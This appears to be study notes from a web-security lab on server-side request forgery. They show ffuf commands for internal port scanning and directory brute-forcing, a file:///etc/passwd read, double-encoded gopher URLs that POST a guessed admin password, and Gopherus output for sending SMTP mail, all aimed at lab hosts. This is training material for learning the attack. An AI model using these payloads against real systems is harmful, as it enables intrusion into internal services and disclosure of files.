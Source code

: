 # Server-side Request Forgery

Occurs when a web app fetches additional resources from a remote location based on user-supplied data, such as URL.

The server fetches remote resources based on user input - the attacker coerces the server into making requests to arbitrary URLs supplied by the attacker.

**Identifying SSRF**
Looking at a web app example which has a functionality to schedule appointments.

We see the request on Burp and see that the `POST` request has a body that contains a parameter with a url as a value.

We start a listening server, and put our ip we see the request on our server.

We can **enumerate** the system, by making requests to different ports.

This process can be done with `ffuf`, by creating a list of ports that we want to test and then fuzz all open ports by filtering out responses containing the error message.

```sh
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

## Exploiting SSRF

From the Lab.1 we saw that the web app was getting information from the url `dateserver.htb`.

This URL doesn't work if we try to access from our host, but we can do it through the SSRF vulnerability, and we can also conduct a directory brute-force attack using `ffuf`.

First we should determine the response when we access a non-existing page, such as:

```sh
dateserver=http://dateserver.htb/invalid&date=2024-01-01
```

From the response we see that the default Apache 404 response, and we need to filter that out `Server at dateserver.htb Port 80`.

```sh
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

Via this command we can brute-force and find any additional internal endpoint that we can access through the SSRF vulnerability.

## Local File Inclusion (LFI)
Via SSRF we can manipulate the URL and read local files from the file system, using the `file://` URL scheme, such as:

```sh
dateserver=file:///etc/passwd
```

## The gopher Protocol
Until now we were restricted to `GET` requests, but however, there are cases when we need to use the `POST` request. 

The problem is that we can't send a `POST` request with the `http://` URL scheme.

*Example*
We find an internal endpoint `/admin.php` and the response tells as that we need to provide a password on the `adminpw` POST parameter, and now we can't send that using the `http://` URL scheme.

Let's assume that we want to try some weak passwords, such as `admin` via the following `POST` request:

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

**Constructing gopher**
And now we need to **construct a valid gopher URL** from this. Especially we need to encode **spaces** - `%20` and **newlines** `%0D%0A`. 

Then we need to prefix the data with the URL scheme, the target host and port, and an underscore:

```URL
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Now the bytes are sent to the target when the app processes this URL, the internal web server accepts it and responds. 

However, since we are sending our URL within the HTTP Post parameter `dateserver` which is a URL-encoded, we need to encode the entire URL again.

```sh
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

We can also use the `gopher` protocol to interact not just with the HTTP servers.

For example we identify that TCP port 25 is open locally, which is a standard port for SMTP servers.

We can also use tools such as `Gopherus` and generate proper URLs.

```sh
python3 gopherus.py --exploit smtp

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

